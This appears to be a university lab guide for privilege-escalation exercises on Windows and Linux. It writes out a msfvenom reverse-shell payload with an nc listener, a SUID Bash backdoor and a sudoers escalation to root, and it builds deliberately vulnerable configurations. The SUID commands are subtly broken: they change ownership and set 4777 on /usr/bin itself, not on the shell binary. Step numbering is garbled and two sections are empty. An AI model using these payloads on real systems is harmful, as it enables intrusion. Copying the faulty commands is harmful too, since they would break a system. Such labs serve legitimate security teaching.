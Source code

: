 # Security First Principles: Least Privilege Labs
Created for DSU's Cyber Operations I course

| Box Name | Type |
| -------- | ------- |
| Linux Exercises | Kali 2023.3 |
| Windows Exercises | Windows 10 Pro build 19044 |
* Windows Defender is disabled via Group Policy on the Windows Exercises box.

## Lab Exercise 1: Widnows Horizontal/Vertical PrivEsc
### Configuration
#### Horizontal PrivEsc via Unquoted Service Path
1. Add two additional standard users the box, with different passwords. Use the only one of the users for the following steps.
2. Create a "Step 4" folder on the desktop of the selected user.
3. Create a path in Program Files three folders deep with a dummy service executable (`C:\Program Files\[Level 1 Name]\[Level 2 Name]\[Dummy Service Executable]`).
     * Ensure the `Level 2 Name` contains a space (ex. `Automated Service`)
     * This dummy executable won't be used, so pretty much any executable that isn't a shell works. I used `iexplore.exe`.
5. Edit the `Level 1 Name` folder properties to grant all users write permission (Properties > Security > Users > Edit > Write).
6. Create a new registry key in `HKLM\SYSTEM\CurrentControlSet\Services`. This key will be the service name.
7. Add the following values to the key:

    | Name | Type | Data |
    | -------- | ------- | ------- |
    | (Default) | REG_SZ | (value not set) |
    | DisplayName | REG_SZ | [Service Name] |
    | ErrorControl | REG_DWORD | 0x00000001 (1) |
    | ImagePath | REG_EXPAND_SZ | [Path to Dummy Service Executable **without quotes**] |
    | ObjectName | REG_SZ | .\\[User Name] |
    | Start | REG_DWORD | 0x00000002 (2) |
    | Type | REG_DWORD | 0x00000010 (16) |

8. Restart the box.
9. Open the Services MMC snap-in. The `[Service Name]` should appear in the list. Ensure the startup type is set to Automatic so it executes when the box starts.

#### Vertical PrivEsc

### Exploitation
#### Horizontal PrivEsc via Unquoted Service Path
1. Log on to the second user created in Configuration step 1.
2. Create a simple TCP reverse shell with `msfvenom` on the Linux Exercises box:
      * In the example above, this would be `Automated.exe`.
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Automated.exe` in the Windows PrivEsc archive in the repo.
          * Password: `infected`

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1337 -f exe -o [First word of Level 2 Name].exe
```

2. SCP the generated file from the LInux Exercises box to `C:\Program Files\[Level 1 Name]` on the Windows Exercises box.
3. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1337`.
4. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of the first user. Use `whoami` to verify this.

#### Vertical PrivEsc

## Lab Exercise 2: Linux Horziontal PrivEsc via SUID
### Configuration
1. Add two additional users the box, with different passwords. These users should not be able to use `sudo`. Use the only one of the users for the following steps.
2. Create a "Step 4" folder on the desktop of the first user.
3. Build the modified Bash shell in the Linux PrivEsc/Lab 2 folder in the repo with `./configure` and `make`. Name it `shell`.
      * This modification always runs the Bash shell in privileged mode (so that the SUID bit won't be [ignored by default](https://www.gnu.org/software/bash/manual/bash.html)).
      * A pre-built `shell` for the Linux Exercises box is also in the folder.
4. Place the `shell` in the `/usr/bin` folder.
5. Set the owner and group (if applicable) and the SUID bit on the file:
      * If set correctly, permissions should be `-rwSrwxrwx` and the user and group will be the first user.

```
chown [first user] /usr/bin
chgrp [first user] /usr/bin
chmod 4777 /usr/bin
chmod u-x /usr/bin
```

### Exploitation
1. Log on to the second user created in Configuration step 1.
2. Execute the `/usr/bin/shell` file. A Bash shell should spawn with the permissions of the first user. Use `whoami` to verify this.

## Lab Exercise 3: Linux Vertical PrivEsc via visudo
### Configuration
1. Using `sudo` as the first user, create a "Step 5" folder in the home directory of the root user.
2. Use `visudo` to edit the `/etc/sudoers` file. Add a line for your second user to allow them to run `visudo` beneath the root user:
      * A preconfigured `/etc/sudoers` file is `sudoers.old` in the Linux PrivEsc/Lab 3 folder in the repo as well.

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo
```

3. Save the file

### Exploitation
1. Run `visudo` as the second user.
2. Append `,/usr/bin/su` to the privilege specifcation for the second user:

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo,/usr/bin/su
```

3. Save the file
4. Run `sudo su` as the second user. A root shell will spawn.

## Puzzler: Correcting PrivEsc Vulnerabilities
